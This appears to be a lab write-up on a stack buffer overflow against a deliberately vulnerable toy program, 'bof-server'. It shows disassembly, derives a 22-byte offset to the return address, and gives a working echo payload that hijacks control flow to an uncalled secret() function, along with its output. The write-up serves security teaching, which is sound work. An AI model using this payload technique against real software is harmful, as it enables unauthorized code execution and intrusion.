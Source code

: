 ## exploit 1

If we check the generated assembly code we can see there is function `secret()` which is never called but still present in the binary:

```
$ objdump -d build/bof-server
...
00000000004011f7 <secret>:
  4011f7:	55                   	push   %rbp
  4011f8:	48 89 e5             	mov    %rsp,%rbp
  4011fb:	bf 64 20 40 00       	mov    $0x402064,%edi
  401200:	e8 2b fe ff ff       	call   401030 <puts@plt>
  401205:	90                   	nop
  401206:	5d                   	pop    %rbp
  401207:	c3                   	ret
...
```

If the code is compiled without `-fPIE -pie` (position independent code), then we can overwrite the return address pushed onto the stack (when `authenticate()` is called) to point to the address of `secret()`. If `-fPIE -pie` is passed to the compiler ASLR will randomize the addresses each time the binary is executed.

Now we just need to figure out where the return address is exactly on the stack:

```
...
00000000004011e7 <main>:
...
  4011eb:	e8 66 ff ff ff       	call   401156 <authenticate> # return address is pushed (8 bytes)
...
0000000000401156 <authenticate>:
  401156:	55                   	push   %rbp                  # rbp is pushed (8 bytes)
...
  40115e:	c7 45 fc 00 00 00 00 	movl   $0x0,-0x4(%rbp)       # auth (4 bytes)
...
  40116f:	48 8d 45 f2          	lea    -0xe(%rbp),%rax       # buffer (10 bytes)
...

```

We can see that we need to specify 22 bytes (10 + 4 + 8) in the first part of our payload before the address of `secret()`:

```
$ echo "aaaaaaaaaabbbbcccccccc\xf7\x11\x40\x00\x00\x00\x00\x00" | ./build/bof-server
enter the password:
wrong password
authenticated
your files:
arsenal  build	Cargo.lock  Cargo.toml	lab  LICENSE  Makefile	README.md  target
secret found!
zsh: done                              echo "aaaaaaaaaabbbbcccccccc\xf7\x11\x40\x00\x00\x00\x00\x00" | 
zsh: segmentation fault (core dumped)  ./build/bof-server
```
